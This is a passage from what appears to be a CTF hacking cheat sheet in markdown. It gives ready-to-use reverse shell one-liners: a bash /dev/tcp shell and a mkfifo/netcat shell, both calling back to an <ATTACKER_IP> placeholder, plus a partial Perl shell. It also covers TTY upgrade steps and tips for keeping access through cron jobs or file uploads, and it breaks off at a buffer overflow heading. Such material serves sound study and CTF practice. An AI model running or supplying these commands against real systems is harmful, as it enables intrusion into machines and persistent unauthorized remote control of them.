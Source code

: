 2️⃣ **On Target (trigger shell):**
```bash
bash -c 'bash -i &> /dev/tcp/<ATTACKER_IP>/9001 0>&1'
```

---

#### 🧪 Perl Reverse Shell (Common in CTFs)
```bash
perl -MIO -e '$p=fork;exit if $p;...'
```
- Use it when you gain command execution via web.
- Swap in your IP and port.
- Stable but easily detectable—upgrade shell after.

---

### 🧼 Shell Upgrade Tips

If you get a basic shell, upgrade it:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

And make it interactive:
```bash
CTRL+Z
stty raw -echo; fg
reset
export TERM=xterm
```

---

### 🎯 Pro Tips for CTFs:

- **Always try multiple shell methods:** Bash, Python, Perl, PHP, Socat.
- **Use `rlwrap` or `script` to wrap Netcat** for history/navigation.
- **Some machines block Netcat**—use `socat` or `mkfifo` shell:
```bash
mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | nc <ATTACKER_IP> <PORT> > /tmp/f
```

- **Check cron jobs or file uploads for persistence** using reverse shells.


---

### 💥 Buffer Overflow

Buffer overflow exploits can be used to execute arbitrary code, often giving shell access. One key step is injecting shellcode into the program's memory.

---

#### 🛠️ Generate Shellcode with `pwntools` (Python)
